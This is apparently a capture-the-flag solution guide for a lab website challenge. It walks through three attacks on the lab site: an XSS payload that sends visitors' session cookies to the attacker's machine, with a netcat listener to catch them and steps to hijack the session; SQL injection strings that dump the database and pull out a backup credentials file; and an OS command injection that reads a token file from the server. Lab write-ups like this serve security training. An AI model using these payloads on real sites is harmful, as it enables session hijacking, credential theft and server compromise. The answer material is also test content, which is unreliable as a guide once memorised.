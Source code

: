 # In Plain Site

_Solution Guide_


## Overview

Three tasks need to be completed to get all the points available for _In Plain Site_. These tasks revolve around analyzing a website, using any means necessary to elevate privileges, and finding the three hex tokens associated with the site.

>**Note:** You will need to create your own account on the site before following this solution guide.

## Question 1

_What is the hex token present on the website once you access an account with permissions higher than the default 'user'?_

#### High-jacking User Session with XSS

On certain pages of the site, at the bottom of the page, a section shows the most recent comment that was made. After some analysis and testing, you find this section is vulnerable to an XSS attack. 

Test this by commenting on any post (new or previous) so your comment is shown.

Test if XSS will work by commenting on a post with the following code snippet:

`    <script>alert('XSS Vuln')</script>
`

If you browse to the home page, you will see an alert confirming that it is vulnerable to an XSS attack -- so you know you have the possibility to steal session cookies from anyone browsing to the website. 

Start crafting your attack. Here are steps to do that:

1. Create a comment on a post with the following code (edit to input the IP address of your machine):

```javascript
    <script>new Image().src="http://**YOUR VM IP**/bogus.php?output="+document.cookie;</script>
```

2. Create a small script to implement a listener for connections created from your XSS code being executed by another user. 

```bash
    while :
    do
        nc -lvp 80 
    done
```

3. Watch the terminal with the listener running. If done correctly, you should start to get output that looks like this:

<img src="img/xssOutput.PNG">

You can see the cookies from the user's session present in the response and can be read after the string `output=`. You should see that you have received two cookies:

 - `Session`
 - `Remember_token`

Use these tokens in Firefox to highjack their session. This can be done by following these steps:

- Go to `bugle:5000` web page and make sure you're logged out.
- Open Firefox web Developer Tools (right-click, select `inspect`).
- Go to the section `storage`.
- Expand the side section `cookies`.
- Click the `+` in the top right of the Developer Tools to create new item.
- Set the name of it to the first cookie found: `session`.
- Put the value of it as the string found after `session=` up until the `;` character as it signifies the end of the cookie for the first one.
- Repeat the entire process, but this time as the `remember_token` and its value. It will not have a `;` at the end of the string, the first space found will signify the end of this cookie.

It should look like this:

<img src="img/addCookie.PNG">

If done correctly, when you refresh the page, you should now be high-jacking the session of one of the users.

There are four users browsing the site throughout the challenges duration. In order to proceed, determine which user has elevated privileges. Do this by trial and error for each of the cookies received until the correct one is found.

You are looking for `Eddie Brock`  -- also known as `teamBrocket`. 

Once you log in you will see the `first token`  posted in the top left of your page.

## Question 2

*What is the hex token stored in a file containing backup credentials?*

#### Retrieving files via SQL Injection

Once you get access, you have access to a new page on the site labeled `User Management`. This page is used to search for users and change accounts.

If you look at the page source code, you can see there is a script used that is not used anywhere else on the site. 

<img src="img/userManagementScript.PNG">

This script is meant to submit the value `*` into the search function if the field to search by is `None` and if the search string is '' (empty string).

This is a hint that it is submitting this value to run within a SQL statement, and that there is a vulnerability here for altering the statement to get the contents of the SQL Database. 

Run the following command to view the contents of the database:

```sql
    * from sqlite_schema where type='table'-- 
```

The output is all the tables in the database and their structure. Your goal is to get a specific file from the `File` table in the database; you can get the contents of that table using this command:

```sql
    * from File--
```

There are three files present, but you want `backup.pdf`. You can retrieve this file by specifying its `id` number within the SQL command:

```sql
    * from File where id=3--
```

If you then compare the structure of the database found in the first SQL command with the output of the command retrieving `backup.pdf` you'll find the file is stored in the `blob` section of the record. The `blob` is stored in a byte format; convert it back into a file before you can read it. The python script below does this.

```python
    #/usr/bin/python3
    import io

    blob = b'**BLOB STRING HERE'
    bb = io.BytesIO()
    bb.write(blob)

    with open('file.pdf', 'wb') as f:
        f.write(bb.getbuffer())
```

You can now open the file and the `second token` will be present as well as the backup master credentials for the site.

## Question 3

*What is the hex token stored in a file on the web server's file system?*

#### OS Command Injection

Now that you have the credentials for the highest permission account, you can view the `Scan Hosts` page.

It will prompt you to enter a hostname -- once you do, it will return output that the VM is running a quick nmap scan against the host you entered.

Test trying to alter the command being entered. By trial and error, you can find the location of the final file labeled `token3.txt` and get its contents.

The following command will complete an OS Command Injection and get you the third token to complete this challenge.

```shell
    kali >/dev/null && cat /home/user/Desktop/site/static/token3.txt #
```
